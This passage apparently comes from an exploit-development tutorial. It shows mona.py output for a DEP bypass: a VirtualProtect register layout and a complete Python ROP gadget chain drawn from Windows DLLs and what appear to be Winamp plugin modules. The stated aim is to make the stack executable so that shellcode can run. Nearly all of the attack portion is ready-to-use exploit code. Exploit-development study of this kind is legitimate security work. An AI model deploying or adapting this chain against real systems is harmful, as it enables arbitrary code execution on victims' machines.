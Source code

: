 
Open up `rop-chains.txt` which should suggest a work to invoke `VirtualProtect` to enable executable stack based insutrctions, which in turn will allow the execution of the shellcode.

    Register setup for VirtualProtect() :
    --------------------------------------------
     EAX = NOP (0x90909090)
     ECX = lpOldProtect (ptr to W address)
     EDX = NewProtect (0x40)
     EBX = dwSize
     ESP = lPAddress (automatic)
     EBP = ReturnTo (ptr to jmp esp)
     ESI = ptr to VirtualProtect()
     EDI = ROP NOP (RETN)
     --- alternative chain ---
     EAX = ptr to &VirtualProtect()
     ECX = lpOldProtect (ptr to W address)
     EDX = NewProtect (0x40)
     EBX = dwSize
     ESP = lPAddress (automatic)
     EBP = POP (skip 4 bytes)
     ESI = ptr to JMP [EAX]
     EDI = ROP NOP (RETN)
     + place ptr to "jmp esp" on stack, below PUSHAD


Further more, the script even templates the above ready to use into a few mainstream languages (ruby, C, python), here's the python:


    *** [ Python ] ***
    
      def create_rop_chain():
    
        # rop chain generated with mona.py - www.corelan.be
        rop_gadgets = [
          0x7deb1da7,  # POP EAX # RETN [mshtml.dll] 
          0x59a010f8,  # ptr to &VirtualProtect() [IAT wmdmlog.dll]
          0x07b43279,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [out_ds.dll] 
          0x7de0ce7b,  # XCHG EAX,ESI # RETN [mshtml.dll] 
          0x083cba30,  # POP EBP # RETN [jpeg.w5s] 
          0x5ad86aeb,  # & push esp # ret  [UxTheme.dll]
          0x76cac606,  # POP EAX # RETN [IMAGEHLP.dll] 
          0xfffffdff,  # Value to negate, will become 0x00000201
          0x08493327,  # NEG EAX # RETN [playlist.w5s] 
          0x7dc82979,  # XCHG EAX,EBX # RETN [mshtml.dll] 
          0x7c87f229,  # POP EAX # RETN [kernel32.dll] 
          0xffffffc0,  # Value to negate, will become 0x00000040
          0x771bcbe4,  # NEG EAX # RETN [WININET.dll] 
          0x7dc80eed,  # XCHG EAX,EDX # RETN [mshtml.dll] 
          0x7dc5567d,  # POP ECX # RETN [mshtml.dll] 
          0x77e4ac2e,  # &Writable location [ADVAPI32.dll]
          0x0832bbfb,  # POP EDI # RETN [jnetlib.w5s] 
          0x77e8c786,  # RETN (ROP NOP) [RPCRT4.dll]
          0x7dc32ee1,  # POP EAX # RETN [mshtml.dll] 
          0x90909090,  # nop
          0x7e423ad9,  # PUSHAD # RETN [USER32.dll] 
        ]
        return ''.join(struct.pack('<I', _) for _ in rop_gadgets)
    